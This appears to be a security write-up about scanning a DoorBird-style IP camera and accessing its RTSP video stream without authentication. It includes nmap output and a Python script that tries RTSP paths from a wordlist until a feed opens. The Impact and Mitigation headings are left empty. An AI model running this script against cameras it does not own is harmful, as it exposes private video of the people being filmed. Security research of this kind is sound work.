

Starting with a comprehensive port scan of the camera to identify available services:
nmap -p- -sV -sC -T4 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-23 17:55 CEST
Nmap scan report for 172.20.10.2
Host is up (0.033s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
80/tcp open rtsp DoorBird video doorbell rtspd
|_rtsp-methods: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, PAUSE, GET_PARAMETER, SET_PARAMETER
|_http-title: Site doesn't have a title.
|_http-cors: GET POST OPTIONS
835/tcp open tcpwrapped
6668/tcp open irc?
|_irc-info: Unable to open connection
8554/tcp open rtsp DoorBird video doorbell rtspd
|_rtsp-methods: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, PAUSE, GET_PARAMETER, SET_PARAMETER
Service Info: Device: webcam
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 922.12 secondsOpen Ports Summary:
The scan reveals two RTSP (Real Time Streaming Protocol) ports - 80 and 8554. Port 8554 is the standard RTSP port, commonly used for streaming video content. This presents an interesting attack surface.
Initial Observations:
Since RTSP streams can be accessed using media players like VLC, the next step was to develop a Python script to systematically test for accessible video streams without authentication. The approach involves:
import cv2
import argparse
import socket
import time
def bruteforce(ip_address: str, port: int, file: str) -> None:
rtsp_ip = f"{ip_address}:{port}"
try:
print("Attempting to connect...")
socket.create_connection((ip_address, port), timeout=5)
print("Connection successful!")
except socket.timeout:
for remaining_time in range(5, 0, -1):
print(f"Time out in {remaining_time}")
time.sleep(1)
print("Timed out")
exit()
with open(file, 'r') as directories:
for directory in directories:
directory = directory.strip()
cap = cv2.VideoCapture(f"rtsp://{rtsp_ip}+{directory}")
if cap.isOpened():
print(f"Connection successful with directory: {directory}")
break
print(f"Connection failed with directory: {directory}")
continue
while True:
ret, frame = cap.read()
if not ret:
print("Cannot capture frame.")
break
cv2.imshow("RTSP Stream", frame)
if cv2.waitKey(1) & 0xFF == ord('q'):
break
cap.release()
cv2.destroyAllWindows()
def main():
parser = argparse.ArgumentParser(description="Real Time Streaming Protocol (RTSP) Bruteforce directory script")
parser.add_argument("-ip", "--ip_address", type=str, required=True, help="the IP address")
parser.add_argument("-p", "--port", type=int, required=True, help="the port")
parser.add_argument("-f", "--file", type=str, required=True, help="path to rtsp directory list")
args = parser.parse_args()
bruteforce(args.ip_address, args.port, args.file)
if __name__ == "__main__":
main()Executing the exploit script against the target camera:

*Screenshot was updated later, so don't mind the date
Security Impact:
Attack Scenario:
Immediate Mitigation:
Long-term Solutions: